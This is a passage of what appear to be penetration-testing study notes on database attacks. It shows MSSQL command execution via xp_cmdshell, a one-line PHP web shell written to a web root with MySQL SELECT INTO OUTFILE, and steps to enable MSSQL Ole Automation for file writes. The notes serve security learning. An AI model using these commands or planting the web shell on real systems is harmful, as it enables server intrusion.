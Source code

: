 Then we can use it to run commands

```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```


### <mark class="hltr-orange">Write Local Files</mark>

#### <mark class="hltr-grey">MySQL</mark>

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory. Then we can browse to the location where the file is and execute our commands.

```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

##### <mark class="hltr-purple">MySQL - Secure File Privileges</mark>

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.


```shell-session
mysql> show variables like "secure_file_priv";
```

![[Pasted image 20240927175011.png]]

#### <mark class="hltr-grey">MSSQL</mark>

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

##### <mark class="hltr-purple">MSSQL - Enable Ole Automation Procedures</mark>

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
